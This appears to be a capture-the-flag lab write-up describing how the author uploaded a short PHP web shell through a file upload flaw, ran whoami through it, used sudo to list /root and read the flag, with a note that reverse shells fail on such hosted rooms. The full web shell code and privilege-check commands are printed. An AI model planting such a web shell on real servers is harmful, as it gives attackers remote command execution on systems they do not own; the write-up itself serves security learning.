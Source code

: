 # Step by step breakdown

**🔥 Exploited file upload vulnerability → PHP shell → Sudo privilege → Captured flag. No reverse shells needed this time.**

I first started off by trying to run a classic php shell through the file upload vulnerability

    <?php
    echo "<pre>";
    system($_GET['cmd']);
    echo "</pre>";
    ?>

I saved this code to a file and named it shell.php and uploaded it through the file upload functionality

(file upload output screenshot)

afterwards I traversed to the URL where the file I executed a simple whoami command by appending '?cmd=whoami' to the URL


(Output of whoami command)


With www-data I cannot access the /root directory, so I know I have to try some light privilege escalation techniques. I start by trying the sudo -l command which outputs:

(sudo -l output here)

which leads me to believe that I can simply access the root directory with sudo privileges without having to escalate to a root user, so I run

    ls -la /root

to view all the files in root directory

(output for root directory)

Then it's BBQ chicken from there

!['loki gif'](../media/gifs/Devious-ahh-loki.gif)


# Capturing the flag 🏁

    sudo cat /root/flag.txt

Flag captured. Game over. 🎯

!['loki gif'](../media/gifs/tom-hiddleston-loki-wink.gif)


# Lessons learned

Don't waste trying to launch reverse shells on rooms like this cuz they're hosted on AWS and more than likely won't let you establish a connection and you'll spend twenty minutes trying to figure out what's wrong only to find out that you should have just stuck with the webshell instead of trying to be a ghetto red team operator

!['loki gif'](../media/gifs/Frustrated-loki.gif)

